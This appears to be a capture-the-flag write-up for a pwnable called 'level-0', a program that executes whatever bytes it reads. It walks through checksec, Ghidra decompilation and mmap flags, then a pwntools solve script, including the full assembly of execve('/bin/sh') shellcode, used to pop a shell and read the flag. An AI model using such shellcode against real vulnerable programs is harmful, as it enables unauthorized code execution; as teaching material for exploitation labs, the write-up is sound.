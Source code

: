 # level-0

## Introduction

A pwnable passed down from my mentor, @huckfinn. This problem focuses on
creating shellcode.

## Information Gathering

### Hint #1

> This program will literally do anything you want it to do.

```shell
$ checksec ./level-0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Dynamic

If we run the program we see that the program is waiting for input. When we
enter the input, the program immediately segfaults. Given the hint, it makes me
think that this program is literally running the bytes given to it. Since
`test` doesn't correspond to valid instructions in amd64, the program dies.

```shell
$ ./level-0
test
Segmentation fault (core dumped)
```

### Static

We threw the program in Ghidra and this was the result after some cleanup.

```c
int main(void){
  code *__buf;

  init_chal();
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,__buf,4096);
  (*__buf)();
  return 0;
}
```

Notably, the `main` function is `mmap`ing the region of memory where `buf` is
with the following arguments: `mmap(addr=NULL, length=0x1000, prot=0x7,
flags=0x22, fd=0xfffffff, offset=0x0)`

The prot (protections) argument describes the desired memory protection of the
mapping. It is a bitwise OR of one or more of the following flags:

```c
#define PROT_READ	0x1		/* page can be read */
#define PROT_WRITE	0x2	   /* page can be written */
#define PROT_EXEC	0x4		/* page can be executed */
#define PROT_SEM	0x8		 /* page may be used for atomic ops */
#define PROT_NONE	0x0		/* page can not be accessed */
```

With a prot bitmask of 0x7 the memory location is set to read, write, and
execute. The combination of the latter two are particularly interesting when we
see that it is actually executing the contents of `buf` as though there are
instructions there. There currently aren't, but could there be?

Yes! We just need to send the program some shellcode to execute.

## Strategy

The idea is simple. We just need to write some shellcode to `execv` a shell. We
could do this by hand, which would be a great exercise, but we're going to
leverage `pwntool` to do the hard part for us.

With `pwntools` we can start our `shellcraft` module to launch a shell pretty
easily.

```python
exe = ELF('./level-0')
context.binary = exe
# Create the shellcode.
shellcode = shellcraft.sh()
```

What might trip you up is how the `shellcraft` module works. You typically need
to specify the architecture and the operating system such that is would
something like this:

```python
# Create the shellcode.
shellcode = shellcraft.amd64.linux.sh()
```

However, because we have set `context.binary` in our script, `pwntools` is
smart enough to figure that part out. Hopefully this saves you some heartache.

You can print out the result by calling `print(shellcode)` and see the
following assembly:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Now all that is left is to send it the program. We can't send the assembly
output as shown above; we need to convert it to the actual hexadecimal opcodes
that the program will run with the `asm` function. We can do that and send it
to the program. Putting it all together looks something like the following:

```python
# Pop a shell.
shellcode = shellcraft.sh()
io.sendline(asm(shellcode))

# Get the flag.
io.sendline("cat flag.txt")
flag = io.recvline()
log.success(f"Flag: {flag}")
```

## The Solution

You should be able to run the script like so and get the flag!

```shell
$ python3 ./solve.py
[+] Flag: b'flag{RememberAllIAmOfferingIsTheTruth}\n'
[+] Time: 0.1028270721435546
```

## Mitigations

I won't even discuss exploitation mitigations since the developers purposefully
made `buf` RWX. :)
